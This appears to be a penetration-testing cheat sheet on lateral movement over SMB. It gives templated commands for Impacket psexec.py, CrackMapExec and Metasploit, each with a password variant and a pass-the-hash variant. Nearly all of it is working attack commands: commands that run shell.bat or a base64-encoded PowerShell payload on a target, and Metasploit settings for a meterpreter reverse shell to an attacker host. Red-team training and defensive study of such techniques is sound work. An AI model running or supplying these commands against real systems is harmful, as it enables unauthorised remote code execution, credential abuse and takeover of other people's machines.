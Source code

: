 # SMB

## 01 - Impacket

- **Authenticate via username and password**

`$ psexec.py <domain_name>/<username>:<password>@<IP> -c shell.bat`

- **Authenticate via Pass The Hash**

`$ psexec.py <domain_name>/<username>@<IP> -hashes <LM>:<NT> -c shell.bat`

## 02 - CrackMapExec

- **Authenticate via username and password**

`$ crackmapexec smb <IP> -u <username> -d <domain_name> -p <password> -x shell.bat`

`$ crackmapexec smb <IP> -u <username> -d <domain_name> -p <password> -x "powershell -E <base64_payload>"`

- **Authenticate via Pass The Hash**

`$ crackmapexec smb <IP> -u <username> -d <domain_name> -H <NT> -x shell.bat`

`$ crackmapexec smb <IP> -u <username> -d <domain_name> -H <NT> -x "powershell -E <base64_payload>"`

## 03 - Metasploit

- **Authenticate via username and password**

```
msf exploit(windows/smb/psexec) > set payload windows/x64/meterpreter/reverse_tcp

msf exploit(windows/smb/psexec) > set lhost <attacker_IP>

msf exploit(windows/smb/psexec) > set lport <PORT>

msf exploit(windows/smb/psexec) > set rhosts <target_IP>

msf exploit(windows/smb/psexec) > set smbdomain <domain_name>

msf exploit(windows/smb/psexec) > set smbuser <username>

msf exploit(windows/smb/psexec) > set smbpass <password>

msf exploit(windows/smb/psexec) > run
```

- **Authenticate via Pass The Hash**

```
msf exploit(windows/smb/psexec) > set payload windows/x64/meterpreter/reverse_tcp

msf exploit(windows/smb/psexec) > set lhost <attacker_IP>

msf exploit(windows/smb/psexec) > set lport <PORT>

msf exploit(windows/smb/psexec) > set rhosts <target_IP>

msf exploit(windows/smb/psexec) > set smbdomain <domain_name>

msf exploit(windows/smb/psexec) > set smbuser <username>

msf exploit(windows/smb/psexec) > set smbpass <ntlm_hash>

msf exploit(windows/smb/psexec) > run
```